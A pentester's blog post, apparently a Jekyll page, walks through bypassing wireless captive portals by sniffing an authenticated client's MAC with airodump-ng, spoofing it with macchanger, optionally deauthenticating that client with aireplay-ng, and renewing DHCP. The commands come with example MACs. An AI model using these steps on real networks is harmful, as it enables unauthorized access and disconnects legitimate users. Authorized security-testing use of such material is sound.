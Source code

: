 ```yaml
---
layout: post
title: Bypassing Wireless Captive Portals
categories: [pentest, wireless, bypass]
tags: [captive portal, wireless, bypass]
comments: true
---
```


Ocassionally, on client projects I come across Guest Wireless Networks that require a login after connecting for further network/Internet access. 
In many cases this can be bypassed by spoofing the MAC address of a client that has already connected and authenticated to an AP.  The reason this works is that an authenticated user’s MAC is given an IP that is allowed on the network, so when spoofing a MAC address, there is no need to authenticate as the MAC address is already allowed on the network. The steps below can be used to obtain a MAC address, spoof it and reconnect to an AP bypassing the captive portal login.

**disclaimer**

In addition to client sites, this also works on airplanes, hotels and cruise ships, so please use your powers for good and only perform actions on networks in which you have authorization. 

## Requirements
1.	MAC Changer
*	sudo apt install macchanger
2.	Aircrack-ng
* sudo apt install aircrack-ng

## Bypass Steps
In the examples below I had 2 wireless interfaces: a built in wireless card (wlx8416f907e91f) and a USB wireless card (wlan0).

1.	See what MACs are associated to the AP
* sudo airodump-ng <interface> --ivs
*	sudo airodump-ng wlx8416f907e91f –ivs

![aircrack](/assets/captiveportalbypass.png)

From the above we can see A0:3D:6F8B:5D:A0 is the BSSID of an AP (MAC address) of the target Guest Wifi and 70:70:0D:72:2C:3C is a client associated and hopefully authenticated with the AP.

2.	Bring the interface down in preparation to spoof the MAC address
* sudo ifconfig <interface> down
* sudo ifconfig wlan0 down
3.	Spoof the MAC address
* sudo macchanger --mac <MAC to spoof> <interface>
* sudo macchanger --mac 70:70:0D:72:2C:3C wlan0
4.	Bring interface back up
*	sudo ifconfig <interface> up
*	sudo ifconfig wlan0 up
5.	Deauth client, hoping to move them to a different AP so there is not a conflict. **This step is optional.**
*	sudo aireplay-ng -0 1 -a <BSSID> -c <client MAC> <interface>
*	sudo aireplay-ng -0 1 -a A0:3D:6F8B:5D:A0 -c 70:70:0D:72:2C:3C wlan0
6.	Connect the interface to the target SSID as normal.
7.	Release and renew your IP address now with the spoofed MAC.
*	sudo dhclient -r && sudo dhclient -v <interface>
*	sudo dhclient -r && sudo dhclient -v wlan0
8.	Profit
